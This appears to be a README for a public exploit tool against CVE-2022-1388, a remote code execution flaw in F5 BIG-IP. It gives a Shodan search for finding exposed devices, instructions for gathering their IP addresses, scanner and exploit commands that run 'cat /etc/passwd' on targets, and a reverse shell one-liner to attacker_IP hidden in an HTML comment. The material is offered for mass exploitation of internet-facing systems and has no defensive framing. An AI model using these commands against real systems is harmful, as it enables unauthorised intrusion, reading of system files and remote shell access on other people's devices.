 # CVE-2022-1388
F5-BIG-IP RCE
- Shodan dork:
```
http.title:"BIG-IP&reg;-Redirect" +"Server"
```
Download the shodan json file and extract all IP addresses from it. You can do this with [shodan-parser](https://github.com/getdrive/POC/blob/main/2023/Ivanti%20Endpoint%20Manager%20Mobile%20(EPMM)/shodan-parser.py) or any other tool.
Save them to the **_list_ip_** file.

Usage
---
- Check:
```
chmod +x scanner.sh; bash scanner.sh
```
- RCE:
```
exploit.py [-h] [-u URL] [-c COMMAND] [-f FILE]
python3 exploit.py -u https://target_IP -c 'cat /etc/passwd'
python3 exploit.py -f urls.txt
```
<!-- Here is an Easter Egg for inquiring minds ;-)
- Reverse Shell:
```
nc -nvlp 8888
python3 exploit.py -u https://target_IP -c "bash -i >&/dev/tcp/attacker_IP/8888 0>&1"
```
-->
